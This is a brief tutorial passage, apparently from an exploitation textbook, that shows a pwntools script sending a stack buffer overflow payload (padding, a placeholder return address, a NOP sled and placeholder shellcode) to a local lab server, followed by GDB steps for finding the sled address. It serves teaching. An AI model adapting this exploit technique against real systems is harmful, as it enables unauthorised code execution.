 1. Run this program to crash the program in GDB and find nop positions using gdb:
```python
#!/usr/bin/env python3
#ch10_6_exploit.py
from pwn import *
context(bits=32, arch='i386')
# Connect to vulnerable ch10_6 server
p = remote('localhost', 5555)
shellcode = b"<SHELLCODE>"
nopsled_address = b"BBBB"
# Craft our payload
payload = b"A"*264
payload += nopsled_address
payload += b"\x90"*32
payload += shellcode
p.sendlineafter(b"Username: ", payload) # Send payload
p.interactive()
```
2. This will crash the program at EIP 42424242. We just need to determine the position of the nop sled aftewards.
3. Run: `x/64x $esp` in GDB to get the address of the nop sled